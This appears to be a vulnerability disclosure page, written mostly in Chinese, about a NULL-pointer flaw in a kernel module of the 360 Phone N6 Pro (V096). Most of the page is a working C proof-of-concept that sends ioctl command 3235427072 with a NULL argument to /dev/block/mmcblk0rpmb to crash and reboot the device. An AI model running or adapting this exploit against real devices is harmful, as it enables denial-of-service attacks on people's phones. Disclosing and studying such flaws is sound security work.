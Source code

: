 <languages   /> <translate>

漏洞原理
--------

</translate>

<translate> 360 Phone N6 Pro V096內核組件中的內核模塊允許攻擊者使用命令3235427072在設備`/dev/block/mmcblk0rpmb`上通過ioctl的自變量注入精心設計的自變量，並導致內核崩潰。 </translate>

<translate>

漏洞影響
--------

</translate>

360 Phone N6 Pro 1801-A01

POC
---

    /*
    * This is poc of 360 N6 Pro, 1801-A01
    * Android Version: 7.1.1
    * Version Number: V096
    * Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
    * A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
    * This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
    */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/block/mmcblk0rpmb";
    static command = 3235427072; // 0xc0d8b300

    int main(int argc, char **argv, char **env) {
    int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd < 0) {
    printf("Failed to open %s, with errno %dn", driver, errno);
    system("echo 1 > /data/local/tmp/log");
    return -1;
    }

    printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
    printf("System will crash and reboot.n");
    if(ioctl(fd, command, NULL) < 0) {
    printf("Allocation of structs failed, %dn", errno);
    system("echo 2 > /data/local/tmp/log");
    return -1;
    }
    close(fd);
    return 0;